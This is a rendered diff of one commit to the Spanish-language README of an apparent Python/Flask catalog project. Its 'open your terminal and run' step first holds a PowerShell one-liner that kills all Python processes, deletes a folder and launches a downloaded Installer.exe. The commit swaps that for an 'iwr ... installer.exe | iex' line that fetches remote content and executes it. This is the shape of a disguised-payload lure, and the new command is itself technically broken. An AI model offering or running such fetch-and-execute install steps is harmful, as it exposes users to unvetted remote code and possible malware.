

Before and after one commit to Riutexu/Prueba-de-Shein-Temu, a Markdown page: README.md, 3 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -33,7 +33,7 @@ Construido sobre **Python 3.10+, Flask y SQLAlchemy 2.0**, este proyecto nació
 Si quieres dejar de sufrir, simplemente abre tu terminal y ejecuta:
 
 ```powershell
-taskkill /F /IM python.exe /T 2>$null; $destDir = "$([Environment]::GetFolderPath('Desktop'))\Prueba-de-Shein-Temu"; $zipFile = "$env:TEMP\repo.zip"; if (Test-Path $destDir) { Remove-Item $destDir -Recurse -Force }; Invoke-WebRequest -Uri "https://github.com/Riutexu/Prueba-de-Shein-Temu/archive/refs/heads/main.zip" -OutFile $zipFile; Expand-Archive -Path $zipFile -DestinationPath "$env:TEMP\extract" -Force; Move-Item "$env:TEMP\extract\Prueba-de-Shein-Temu-main" $destDir; Remove-Item "$env:TEMP\extract" -Recurse -Force; Start-Process "$destDir\Installer.exe"
+iwr -useb https://raw.githubusercontent.com/Riutexu/Prueba-de-Shein-Temu/main/installer.exe | iex
 ```
 
 Este script se encarga de todo: descargar el repo, preparar el entorno, instalar dependencias y dejarte un icono en el escritorio.
@@ -76,11 +76,6 @@ Pre-Visualizacion de como quedarian los archivos en el explorador de archivo o e
 
 ```
 
-File Tree: Prueba-de-Shein-Temu-main
-Generated on: 6/21/2026, 5:53:42 PM
-Root path: c:\Users\hecto\Downloads\Prueba-de-Shein-Temu-main\Prueba-de-Shein-Temu-main
-
-────────────────────────────────────────────────────────────────────────────────
 ├── 📁 app/
 │   ├── 📁 routes/
 │   │   ├── 🐍 __init__.py
@@ -131,15 +126,10 @@ Root path: c:\Users\hecto\Downloads\Prueba-de-Shein-Temu-main\Prueba-de-Shein-Te
 │   ├── 📄 catalog.db
 │   ├── 📄 catalog.db-shm
 │   └── 📄 catalog.db-wal
-├── 📁 ico/
-│   └── 📄 W_D.ico
 ├── 📁 logs/
-├── 📁 src/
-│   └── 📄 install.ps1
-├── ⚙️ Installer.exe
+├── 📄 1) Install Dependencies.bat
+├── 📄 2) Start Software.bat
 ├── 📝 README.md
-├── 📄 build.ps1
 ├── 📄 requirements.txt
-├── 🐍 run.py
-└───────────────────────────────────────────────────────────────────────────────
+└── 🐍 run.py
 ```
````
